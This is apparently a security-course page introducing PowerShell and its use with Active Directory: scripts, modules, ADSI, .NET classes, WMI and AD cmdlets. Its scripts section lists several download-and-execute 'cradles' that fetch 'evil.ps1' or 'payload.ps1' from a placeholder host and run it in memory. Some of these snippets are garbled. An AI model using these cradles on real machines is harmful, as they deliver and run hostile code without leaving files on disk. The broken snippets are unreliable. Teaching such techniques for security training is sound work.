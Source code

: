 # 2.1 - Introduction to PowerShell

## **What is PowerShell?**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4" %}
[https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4](https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4)
{% endembed %}

**PowerShell** is a powerful scripting and automation platform developed by Microsoft. It combines the flexibility of a scripting language with the functionality of a command-line shell, enabling users to manage systems, automate repetitive tasks, and access system components programmatically.

* **Cross-Platform**: Available on Windows, macOS, and Linux.
* **Object-Oriented**: Operates with objects instead of plain text, allowing for more precise and flexible scripting.
* **Integration**: Seamlessly integrates with .NET and other Microsoft technologies.
* **Use Cases**: Ideal for administrative tasks, system configuration, and cybersecurity operations.

<div align="left"><figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p><a href="https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large">https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large</a></p></figcaption></figure></div>

{% embed url="https://www.stationx.net/powershell-cheat-sheet/" %}
[https://www.stationx.net/powershell-cheat-sheet/](https://www.stationx.net/powershell-cheat-sheet/)
{% endembed %}

## **Core Components**

### **Scripts**

**Scripts**: `.ps1` files containing PowerShell commands for automating tasks.

*   A script to list all running services:

    ```powershell
    Get-Service | Where-Object { $_.Status -eq "Running" }
    ```
* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

* Download execute [cradle](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1') sponse
```

```powershell
$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1 ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $re
```

```powershell
PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')
```

```powershell
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

Check out Invoke-CradleCrafter:

{% embed url="https://github.com/danielbohannon/Invoke-CradleCrafter" %}
[https://github.com/danielbohannon/Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)
{% endembed %}



* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

### **Modules**

**Modules**: Packages of reusable cmdlets, scripts, and resources.

* Popular modules include:
  * `ActiveDirectory`: Manages AD objects.
  * `Pester`: For testing scripts.
  * `PSReadLine`: Enhances the shell experience.
*   Install with:

    ```powershell
    Install-Module -Name ModuleName
    ```
* A module (or a script) can be imported using:

```powershell
Import-Module C:\AD\Tools|AdModule-master\ActiveDirectory\ActiveDirectory.psd1
```

* All the commands into a module can be listed using:

```powershell
Get-Command -Module <modulename>
```

## **PowerShell for Active Directory (AD)**

PowerShell is a primary tool for managing AD environments.

#### **ADSI (Active Directory Service Interfaces)**

ADSI is a set of COM interfaces for interacting with directory services like Active Directory. It enables querying, modifying, and managing directory objects without requiring additional modules. PowerShell can use ADSI for lightweight operations, especially on systems without the AD module. ADSI uses LDAP paths to locate objects and execute changes. It is versatile but requires knowledge of directory structure and object attributes. Common use cases include user management, password resets, and retrieving directory information. ADSI is powerful for automation in legacy environments or restrictive setups.

#### **.NET Classes for AD**

.NET classes in PowerShell provide direct access to Active Directory operations via the .NET Framework. Key classes like `DirectorySearcher` and `DirectoryEntry` allow querying and managing directory objects. These classes offer fine-grained control over AD queries and modifications. Unlike cmdlets, .NET classes require coding expertise but are highly flexible. They are useful for advanced scenarios like custom searches or handling large datasets. .NET integration with PowerShell allows developers to bypass module dependencies. This approach is ideal for scripting in environments with strict constraints.

**Native Executables**

Native executables like `dsquery`, `net user`, and `nltest` interact directly with Active Directory without PowerShell. They are pre-installed on Windows systems, making them a reliable fallback. These tools are useful for quick queries, user enumeration, or domain configuration checks. For example, `dsquery` retrieves specific AD objects, while `net user` checks group memberships. Native executables can be used in combination with PowerShell for hybrid scripts. They are particularly valuable in environments where PowerShell use is restricted. However, they are less script-friendly compared to PowerShell cmdlets or .NET classes.

**4. WMI (Windows Management Instrumentation) with PowerShell**

WMI is a Windows management framework for accessing system and network information, including Active Directory. PowerShell leverages WMI to query or modify system and directory data remotely. Common uses include querying system information, AD containers, or domain-related data. WMI supports cross-system communication, making it useful for remote administration. It uses namespaces and classes like `DS_Container` to access directory objects. WMI is efficient for real-time monitoring and automation tasks. It is especially valuable in environments where standard AD tools are unavailable.

**5. Active Directory Module (AD Module)**

The AD module is a PowerShell module providing cmdlets for seamless Active Directory management. It simplifies complex AD operations, such as querying users (`Get-ADUser`) or managing groups (`Add-ADGroupMember`). The module integrates tightly with the AD schema, ensuring compatibility and ease of use. It is ideal for administrators who prefer high-level commands over low-level scripting. Common administrative tasks, like resetting passwords or managing group policies, are easily automated. The AD module requires installation on systems that need to run AD-specific cmdlets. It is a go-to tool for modern AD management via PowerShell.

### **Common AD Tasks**

*   **Querying AD Objects**:

    ```powershell
    Get-ADUser -Filter * -SearchBase "OU=IT,DC=example,DC=com"
    ```
*   **Modifying Users or Groups**:

    ```powershell
    New-ADUser -Name "John Doe" -SamAccountName "jdoe" -UserPrincipalName "jdoe@example.com"
    Add-ADGroupMember -Identity "IT_Group" -Members "jdoe"
    ```

### **Benefits of PowerShell with AD**

1. Automation of repetitive administrative tasks.
2. Bulk modifications (e.g., importing users from CSV).
3. Real-time monitoring and auditing through queries.
